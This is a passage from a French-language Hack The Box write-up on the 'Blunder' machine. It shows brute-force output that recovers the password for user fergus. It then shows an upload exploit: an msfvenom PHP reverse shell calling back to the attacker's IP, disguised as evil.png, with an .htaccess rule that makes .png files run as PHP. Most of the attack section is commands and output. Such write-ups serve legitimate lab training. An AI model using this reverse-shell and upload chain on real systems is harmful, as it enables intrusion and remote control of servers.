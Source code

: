 ```bash
[*] Trying password: British
[*] Trying password: Society
[*] Trying password: Book
[*] Trying password: Foundation
[*] Trying password: him
[*] Trying password: Distinguished
[*] Trying password: Contribution
[*] Trying password: Letters
[*] Trying password: probably
[*] Trying password: best
[*] Trying password: fictional
[*] Trying password: character
[*] Trying password: RolandDeschain

[+] Password found: RolandDeschain
```
On trouve les creds suivants :
fergus:`RolandDeschain`

### Directory Traversal
On trouve une exploit sur searchsploit permettant d'uploader une image png contenant du code php. Ici on générere avec msfvenom un reverseshell qu'on va uploader en tant qu'image png. Puis, on va pouvoir y accéder et executer le code en se rendant sur l'url:
/bl-content/tmp/temp/evil.png
```bash
#####################################################"
┌──(kali㉿kali)-[~/htb/Blunder]
└─$ msfvenom -p php/reverse_php LHOST=10.10.16.19 LPORT=1337 -f raw -b '"' > evil.png
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 4051 (iteration=0)
php/base64 chosen with final size 4051
Payload size: 4051 bytes

┌──(kali㉿kali)-[~/htb/Blunder]
└─$ echo -e "<?php $(cat evil.png)" > evil.png

#######################################################

## Après le premier test, je n'arrivais pas a stabiliser mon shell
## J'ai donc utiliser un autre code php pour ouvrir un reverse shell

┌──(kali㉿kali)-[~/htb/Blunder]
└─$ cp php-reverse-shell.php evil.png

┌──(kali㉿kali)-[~/htb/Blunder]
└─$ cat evil.png                   
<?php eval(base64_decode('IoJG91dCkpOwogICAgICB......2xvc2UoJHMpOwogICAgfQo'));

┌──(kali㉿kali)-[~/htb/Blunder]
└─$ echo "RewriteEngine off" > .htaccess

┌──(kali㉿kali)-[~/htb/Blunder]
└─$ echo "AddType application/x-httpd-php .png" >> .htaccess

┌──(kali㉿kali)-[~/htb/Blunder]
└─$ python3 dir_traversal.py
cookie: qg5smk61bhamr0lg3t0s8n9mq5
csrf_token: 6325cd57b7d27ae4de54cefa8d79d6a7e15279d8
Uploading payload: evil.png
Uploading payload: .htaccess
```